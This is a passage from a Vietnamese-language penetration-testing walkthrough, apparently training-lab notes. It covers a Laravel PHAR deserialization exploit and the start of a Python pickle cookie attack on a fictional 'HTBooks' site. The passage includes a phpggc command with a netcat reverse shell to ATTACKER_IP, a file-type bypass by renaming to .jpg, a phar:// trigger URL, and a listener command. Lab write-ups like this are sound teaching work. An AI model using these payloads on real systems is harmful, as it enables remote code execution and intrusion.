 ##### **Bước 1: Tạo tệp PHAR**
Sử dụng lệnh sau để tạo tệp PHAR với gadget chain:
```bash
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar
```

##### **Bước 2: Tải lên tệp PHAR**
1. Đổi tên `exploit.phar` thành `exploit.jpg` để qua mặt kiểm tra định dạng (nếu có).
2. Tải tệp lên máy chủ thông qua chức năng tải ảnh.

##### **Bước 3: Kích hoạt payload**
1. Lấy liên kết tệp tải lên, thêm tiền tố `phar://` vào trước đường dẫn.
2. Truy cập đường dẫn:
   ```
   http://SERVER_IP:8000/image?_=phar://uploads/<MD5>.jpg
   ```
3. Khi máy chủ gọi `file_exists('phar://uploads/<MD5>.jpg')`, payload sẽ được kích hoạt.

##### **Bước 4: Nhận shell**
Lắng nghe kết nối từ máy chủ:
```bash
nc -nvlp 9999
```
Khi payload thành công, bạn sẽ nhận được quyền truy cập shell.

---

# 8. Phát hiện Lỗ hổng Deserialization trong HTBooks GmbH

#### **1. Tình huống và bối cảnh**
HTBooks GmbH & Co KG đã thuê chúng ta thực hiện một bài kiểm tra white-box (kiểm tra an ninh) trên trang web của họ. Chúng ta có được quyền truy cập vào mã nguồn, URL và thông tin đăng nhập sau:

- Tài khoản đăng nhập: `franz.mueller:bierislekker`.

#### **2. Quá trình khám phá**
- Sau khi đăng nhập vào trang web, chúng ta tìm thấy một liên kết đến trang **Admin Panel**, nhưng cố gắng truy cập vào đó lại nhận được thông báo **Access Denied** (Truy cập bị từ chối), vì tài khoản `franz.mueller` không phải là quản trị viên.
- Kiểm tra mã nguồn của trang `templates/admin.html` cho thấy điều kiện kiểm tra quyền quản trị viên:  
  ```python
  {% if user.isAdmin() %}
      ...
  {% else %}
      <div class="notification is-danger">
          Access denied.
      </div>
  {% endif %}
  ```

#### **3. Khám phá Cookie `auth_8bH3mjF6n9`**
- Trong quá trình kiểm tra, chúng ta phát hiện một cookie có tên là `auth_8bH3mjF6n9`, có giá trị đã được mã hóa **base64**. Sau khi giải mã, chúng ta nhận được chuỗi bắt đầu bằng `gASVSgAAAAAAAACMC...`, và qua phân tích, ta nhận thấy đây có thể là một đối tượng **Pickle** của Python.
- Dữ liệu giải mã được:
  ```bash
  echo "gASVSgAAAAAAAACMCXV0aWwuYXV0aJSMB1Nlc3Npb26Uk5QpgZR9lCiMCHVzZXJuYW1llIwNZnJhbnoubXVlbGxlcpSMBHJvbGWUjAR1c2VylHViLg==" | base64 -d | xxd
  ```
